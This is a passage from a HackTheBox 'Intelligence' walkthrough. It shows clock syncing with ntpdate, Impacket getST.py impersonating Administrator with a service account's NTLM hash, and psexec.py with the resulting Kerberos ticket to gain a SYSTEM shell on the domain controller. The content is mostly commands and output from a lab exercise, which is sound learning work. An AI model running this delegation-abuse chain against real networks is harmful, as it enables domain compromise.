 I got this clock skew too great error so to adjust the time of our machine to the victim machine I have to use this tool `ntpdate` and also If you are running this attacker machine from `virtual box` you have to stop this service because it takes back 30 seconds.

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Intelligence]
└─$ sudo ntpdate 10.10.10.248 
2024-01-16 06:46:37.291394 (+0530) +28802.729696 +/- 0.040950 10.10.10.248 s1 no-leap
CLOCK: time stepped by 28802.729696
┌──(kali㉿kali)-[~/Downloads/HTB/Intelligence]
└─$ sudo service virtualbox-guest-utils stop
```
{: .nolineno}

Now lets again try that service ticket command →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Intelligence]
└─$ /usr/share/doc/python3-impacket/examples/getST.py -spn www/dc.intelligence.htb -dc-ip 10.10.10.248 -impersonate Administrator intelligence.htb/svc_int -hashes :e0dcda8d93bf71a6352ea7803c8f17f1
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```
{: .nolineno}

This time I got the `kerbrute ticket` in this `Administrator.ccache` file so lets export it to the variable and access the administrator now with no password →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Intelligence]
└─$ export KRB5CCNAME=Administrator.ccache

┌──(kali㉿kali)-[~/Downloads/HTB/Intelligence]
└─$ psexec.py -k -no-pass Administrator@dc.intelligence.htb 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on dc.intelligence.htb.....
[*] Found writable share ADMIN$
[*] Uploading file VThHSqiz.exe
[*] Opening SVCManager on dc.intelligence.htb.....
[*] Creating service fTtB on dc.intelligence.htb.....
[*] Starting service fTtB.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1879]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
dc

C:\Windows\system32> cd C:\Users\ADminisitrator
The system cannot find the path specified.

C:\Users\Administrator> tree /f /a
Folder PATH listing
Volume serial number is E3EF-EBBD
C:.
+---3D Objects
+---Contacts
```